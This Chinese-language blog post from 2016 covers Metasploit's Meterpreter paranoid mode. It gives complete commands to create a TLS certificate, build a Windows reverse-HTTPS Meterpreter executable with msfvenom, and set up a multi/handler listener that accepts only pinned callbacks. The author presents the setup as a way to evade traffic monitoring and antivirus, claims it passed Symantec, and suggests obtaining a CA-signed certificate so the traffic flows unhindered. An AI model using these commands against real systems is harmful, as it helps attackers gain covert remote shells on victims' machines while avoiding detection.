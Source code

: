 ```yaml
---
layout: post
title:  "MSF偏执模式"
date:   2016-11-23 17:00:01 +0800
categories: MSF
---
```


* content
{:toc}



在某些环境下，我们需要用到meterpreter的偏执模式(paranoid mode)。

偏执模式在面对接受的请求很多的时候，可以有效过滤筛选回连的请求，只留下自己所需要的。

同时，因为其使用了SSL/TLS 认证，因此在应对流量监控和分析时，有很不错的效果，当然也能够Bypass av(by data stream)。

创建一个SSL/TLS证书
-------------

在kali或者其他带有openssl的环境下：

    $ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
        -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=green-m.github.io" \
        -keyout green-m.github.io.key \
        -out green-m.github.io.crt && \
    cat green-m.github.io.key  green-m.github.io.crt > green-m.github.io.pem && \
    rm -f green-m.github.io.key  green-m.github.io.crt

你可以把green-m.github.io这个URL改成任意你想回连的地址，直接指定相应IP也可以。

如果你能搞到一个受信任的证书颁发机构签名的SSL/TLS证书，那就碉堡了，流量直接畅通无阻。

生成偏执模式的payload
--------------

    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=green-m.github.io LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./green-m.github.io.pem StagerVerifySSLCert=true PayloadUUIDName=Green_m -f exe -o ./Green_m.exe

通过设置PayloadUUIDTracking和PayloadUUIDName可以在监听的时候过滤掉不需要的回连请求。为了Bypass av的需求，你还可以生成shellcode来自己编译。

如果网络环境不好，你还可以使用stageless的payload，-p参数指定windows/meterpreter_reverse_https，其他不用修改。

监听偏执模式
------

    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_winhttps
    set LHOST green-m.github.io
    set LPORT 443
    set HandlerSSLCert ./green-m.github.io.pem
    set IgnoreUnknownPayloads true
    set StagerVerifySSLCert true
    set exitonsession false
    run -j -z

设置HandlerSSLCert和StagerVerifySSLCert参数来使用TLS pinning，IgnoreUnknownPayloads接受白名单的payload。

同上，stageless 修改相应payload。

**总结：偏执模式基于SSL/TLS认证过某些流量监控效果应该很不错，测试也过了symantec，仅供参考。**



参考文章：https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode#create-a-ssltls-certificate


转载请注明出处：[https://green-m.github.io/2016/11/23/msf-paranoid-mode/](https://green-m.github.io/2016/11/23/msf-paranoid-mode/)